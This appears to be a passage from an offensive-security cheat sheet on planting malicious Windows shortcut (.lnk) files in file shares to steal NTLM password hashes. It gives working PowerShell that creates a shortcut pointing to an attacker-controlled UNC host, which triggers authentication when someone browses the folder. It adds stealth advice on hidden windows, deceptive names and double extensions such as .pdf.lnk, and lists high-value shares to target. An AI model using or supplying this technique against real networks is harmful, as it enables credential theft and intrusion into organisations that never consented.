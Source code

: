### .lnk vs SCF Compatibility
```cmd
# SCF limitations:
- No longer works on Server 2019
- Legacy technique for older systems

# .lnk advantages:
- Works on modern Windows versions
- More reliable hash capture
- Flexible targeting options
```

### PowerShell .lnk Generation
```powershell
# Create malicious .lnk file:
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

### .lnk File Properties
```cmd
# Key properties for stealth:
TargetPath:     \\<attacker_ip>\@<fake_file>
IconLocation:   %windir%\system32\shell32.dll, 3
WindowStyle:    1 (hidden)
Description:    Legitimate-looking description
HotKey:         Optional keyboard shortcut

# Naming strategy:
- Use legitimate-sounding names
- Match existing file naming patterns
- Consider file extensions (.pdf.lnk, .doc.lnk)
```

## 🎯 File Share Attack Strategy

### Target Selection
```cmd
# High-value file share targets:
- Network drives (mapped drives)
- Shared project folders
- Document repositories  
- Backup locations
- User desktop/documents folders
- Software deployment shares
```
